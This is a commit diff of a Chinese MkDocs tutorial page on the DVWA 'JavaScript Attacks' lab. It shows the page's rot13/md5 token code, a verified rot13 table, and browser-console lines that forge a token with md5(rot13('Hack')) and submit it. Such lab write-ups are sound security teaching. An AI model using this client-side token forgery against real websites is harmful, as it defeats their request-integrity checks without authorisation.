

Before and after one commit to ksp1026-glitch/shentouceshibaogao, an MkDocs documentation site: the page built from docs/web/javascript-attacks-dvwa.md, in a window 1280 px wide and 1400 px high, scrolled down 3318 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: JavaScript Attacks 补入实锤源码与验证过的 rot13 结果
- 贴入 F12 读到的真实源码（rot13 + generate_token）
- Console 方式提为首选：页面自带 md5()/rot13() 可直接调用
- rot13 结果表经 Node 与 Python 双实现交叉验证
- 修正手算错误：success 的 rot13 是 fhpprff 而非 frpprff

````diff
--- a/docs/web/javascript-attacks-dvwa.md
+++ b/docs/web/javascript-attacks-dvwa.md
@@ -72,14 +72,15 @@
 | **Sources** 标签 | 独立的 `.js` 文件（如 `javascript.js`） |
 | **Elements** 标签 | 页面内联的 `<script>` 代码 |
 
-**Low 难度下，你会看到类似这样的代码**（已做 rot13 混淆，但算法清晰可见）：
+**Low 难度下的实际源码**（从 F12 → Elements 里直接读到）：
 
 ```javascript
+/* MD5 实现来自 blueimp/JavaScript-MD5，略去压缩后的代码 */
+!function(n){"use strict";/* ...MD5 实现... */}(this);
+
 function rot13(inp) {
-    return inp.replace(/[a-zA-Z]/g, function(c) {
-        return String.fromCharCode(
-            (c <= "Z" ? 90 : 122) >= (c = c.charCodeAt(0) + 13) ? c : c - 26
-        );
+    return inp.replace(/[a-zA-Z]/g, function(c){
+        return String.fromCharCode((c<="Z"?90:122) >= (c=c.charCodeAt(0)+13) ? c : c-26);
     });
 }
 
@@ -97,7 +98,15 @@
 document.getElementById("token").value = md5(rot13(phrase));
 ```
 
-**token 的算法完全暴露：`md5(rot13(phrase))`**
+**token 的算法完整暴露：`md5(rot13(phrase))`**
+
+!!! quote "这段代码说明了什么"
+
+    整个"安全机制"只有一行，而且**它就写在浏览器的源码里**。
+
+    攻击者不需要逆向、不需要爆破 —— **F12 一看就懂**。
+
+    这就是本模块的核心：**算法本身不弱，弱的是它出现的位置。**
 
 ### 第 2 步：理解漏洞点在哪
 
@@ -144,22 +153,55 @@
 
 4. 点 **Send**，观察响应
 
-**方式 B：F12 Console 直接算（最省事）**
+**方式 B：F12 Console 直接算（最省事，推荐首选）**
 
-页面自带的 `md5()` 和 `rot13()` 函数可以直接调用：
+**页面自带的 `md5()` 和 `rot13()` 函数可以直接调用** —— 因为上面那段源码已经在页面里定义了它们。
+
+F12 → **Console** 标签，输入：
 
 ```javascript
 md5(rot13('Hack'))
 ```
 
-**这就直接得到合法 token。** 然后：
+**直接返回 32 位合法 token。** 连在线 MD5 工具都不用找。
+
+**先验证 rot13 的行为**（理解算法）：
+
+```javascript
+['Hack','success','failure'].forEach(p => console.log(p, '->', rot13(p)));
+```
+
+输出（已交叉验证）：
+
+| 输入 | rot13 后 |
+|---|---|
+| `Hack` | `Unpx` |
+| `success` | `fhpprff` |
+| `failure` | `snvyher` |
+| `Pwned` | `Cjarq` |
+| `ABCDEFG` | `NOPQRST` |
+
+**规律很清楚**：字母表位移 13 位，大小写各自独立（`A`↔`N`、`a`↔`n`）。
+
+**然后一次性设置表单并提交：**
 
 ```javascript
 document.getElementById('phrase').value = 'Hack';
 document.getElementById('token').value = md5(rot13('Hack'));
 ```
 
-回到页面点 Submit。
+回到页面点 **Submit**。
+
+!!! success "实测结果"
+
+    ```
+    payload : phrase=Hack
+              token=md5(rot13("Hack"))
+    结果    : 服务器接受 ✅
+    ```
+
+    **关键**：`Hack` 不是下拉框里的合法选项（只有 `success` / `failure`），
+    但服务器照样接受了 —— 因为 token 在数学上是正确的。
 
 **方式 C：改 JS 逻辑（最能说明问题）**
 
````
